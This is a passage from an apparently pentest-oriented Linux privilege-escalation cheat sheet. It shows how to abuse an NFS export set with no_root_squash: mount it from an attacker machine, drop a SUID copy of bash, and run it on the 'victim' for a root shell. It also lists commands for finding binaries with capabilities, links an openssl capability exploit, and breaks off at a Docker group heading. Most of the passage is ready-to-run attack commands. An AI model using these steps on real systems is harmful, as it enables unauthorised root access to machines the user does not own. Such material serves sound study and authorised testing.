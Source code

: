 Look for the **no\_root\_squash** or **no\_all\_squash** flag. If the directory that is configured this flag, you can mounting and write to this directory as root. Example:

```sh
user@victim:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/srv/share localhost(rw,sync,no_root_squash)
```

Mount the directory to kali (If only for localhost, use port forwarding technique)

```sh
mkdir /tmp/mounting
mount -t nfs <Victim IP>:<SHARED_FOLDER> /tmp/mounting
cp /bin/bash /tmp/mounting
chmod +s /tmp/mounting/bash
```

Then, run our file on victim:

```sh
cd <SHARED_FOLDER>
./bash -p
```

### Capabilities

!!! info Capabilities in Linux allow them specific privileges that are normally reserved for root-level actions (intercept network traffic, mount/unmount file systems, ...)

Listing capabilities of binaries

```sh
/usr/bin/getcap -r  /usr/bin
```

Interesting capabilities

* openssl=ep (Exploit: [https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099](https://int0x33.medium.com/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099))

### Groups

#### Docker Group

Mount the `/` to container
